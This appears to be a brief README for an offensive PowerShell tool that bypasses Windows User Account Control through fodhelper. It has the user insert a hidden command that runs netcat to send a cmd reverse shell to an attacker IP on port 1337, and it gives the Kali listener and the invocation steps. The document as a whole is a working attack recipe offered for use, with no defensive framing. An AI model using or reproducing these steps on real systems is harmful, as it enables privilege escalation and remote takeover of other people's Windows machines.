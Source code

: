 # Bypass UAC 

### Method 1
Before importing the file, please edit the "**BypassUACfodhelper_1.ps1**" file in the following section:: 

```
$CMD = "powershell -windowstyle hidden C:\Windows\Temp\nc.exe YOURIP 1337 -e cmd"
```

#### Execute:
```
kali@unix:/$ rlwrap nc -lvp 1337
```

```
Windows (Poweshell)> . .\BypassUACfodhelper.ps1
Windows (Poweshell)> UACBypass1
OR
Windows (Poweshell)> UACBypass2
```
